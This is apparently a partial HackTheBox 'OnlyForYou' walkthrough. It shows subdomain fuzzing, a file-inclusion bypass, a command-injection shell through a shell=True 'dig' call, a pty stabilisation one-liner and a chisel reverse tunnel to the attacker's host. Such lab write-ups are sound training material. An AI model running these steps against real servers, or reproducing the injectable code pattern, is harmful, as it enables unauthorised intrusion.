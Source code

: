 <h3> OnlyForYou HackTheBox </h3>

Difficulty = Medium

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/236711287-ceef7d4e-9e1b-4ac7-badc-ebe28f16d87c.png)

Update your */etc/hosts* file with the content of the domain name *only4you.htb*

Going over to the web server shows this
![image](https://user-images.githubusercontent.com/127159644/236711396-45b855af-4ddc-4ac6-87a5-352a24ba7d72.png)

Using *ffuf* I fuzzed for subdomain on the vhosts
![image](https://user-images.githubusercontent.com/127159644/236711542-c0362d61-3615-4337-964a-b9767825ec42.png)

Adding the new sub domain *beta.only4you.htb* to my */etc/hosts* file
![image](https://user-images.githubusercontent.com/127159644/236711590-70da737f-b94f-4e51-8266-b1b4124cf0de.png)

Checking the sub domain shows this
![image](https://user-images.githubusercontent.com/127159644/236711622-20a4ed18-e7fc-4ab4-9bef-115d93b2d1f5.png)

I downloaded the source code for this web instance
![image](https://user-images.githubusercontent.com/127159644/236711685-b024754b-a351-45b8-bc32-75ec0f69703e.png)

There's a file upload functon but I didn't particularly find it interesting cause it was rather secured to me 🤔

But here's the vulnerable part of the code
![image](https://user-images.githubusercontent.com/127159644/236711846-fd096b18-edfa-475a-bfe6-d9d867d0b989.png)

The user can query files for download and there's a prevention against LFI but we can still achieve file inclusion without using *../*
![image](https://user-images.githubusercontent.com/127159644/236712019-dbbffe0c-5cf4-445f-8518-c5e59f253816.png)

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/enumerate.py) to automate finding of files 

We know that the server is hosted on *Nginx* from *Wappalyzer Result*
![image](https://user-images.githubusercontent.com/127159644/236713368-0084a968-f8bf-44ae-b873-11e106219ef7.png)

And the default path for web server (vhost) config running nginx is */etc/nginx/sites-enabled/default*

Checking it shows the web path to the vhost which turns out to be */var/www/only4you.htb/ and /var/www/beta.only4you.htb*
![image](https://user-images.githubusercontent.com/127159644/236713662-546d441f-f348-44a7-acef-080cda872f97.png)

Now we can enumerate more files

Out of curiosity we can tell that the web server is built with python and since the sub domain for the vhost has app.py then the doman should also have 🤔

Checking it shows that it's indeed there */var/www/only4you.htb/app.py*
![image](https://user-images.githubusercontent.com/127159644/236714308-46607e76-c122-4a0e-8a53-6525a37cf52b.png)
![image](https://user-images.githubusercontent.com/127159644/236714364-b44ee2ea-8bb5-4fb7-952d-59821593c155.png)

Looking at the code we can see that it is built on the *form* module 

Lets fetch the *form* module at */var/www/only4you.htb/form.py*
![image](https://user-images.githubusercontent.com/127159644/236714557-7fcf1c9c-a224-4d83-a68a-8e58ef829055.png)
![image](https://user-images.githubusercontent.com/127159644/236714641-daefa71d-a6bc-4502-a434-8d267d7dab9b.png)

Looking at the code we can see that it does:

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

So far that variable shell is set to True we can basically inject command which will lead to command injection and maybe shell :D

Lets test it out
![image](https://user-images.githubusercontent.com/127159644/236715685-48a2499c-7918-4999-b4d0-20e46cf07711.png)

It works cool here's the [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/execute.py) that I made for it

Using it to get shell works
![image](https://user-images.githubusercontent.com/127159644/236715962-cef7b857-8b75-4845-bb32-d01a8c914c0f.png)

Here's how I stabilized my shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Checking the internal ports avaiable shows that a service is running on port 3000
![image](https://user-images.githubusercontent.com/127159644/236716251-7e6f788d-86ce-4c4b-93a9-bad02d10b5a0.png)

Lets port forward using chisel shall we 🙂
![image](https://user-images.githubusercontent.com/127159644/236716419-626c5220-9a6a-4150-aeab-5ff3d51a0891.png)

```bash
Command:

Host: chisel server -p 9001 --reverse
Target: ./chisel client {host}:9001 R:3000:127.0.0.1:3000 &
```

We can confirm that it was successfully port forwarded by scanning our host
![image](https://user-images.githubusercontent.com/127159644/236716902-a733ac13-25e0-4a9f-9c1e-e3b7e3f67f08.png)

Now lets see what it contains or rather what it is 😅


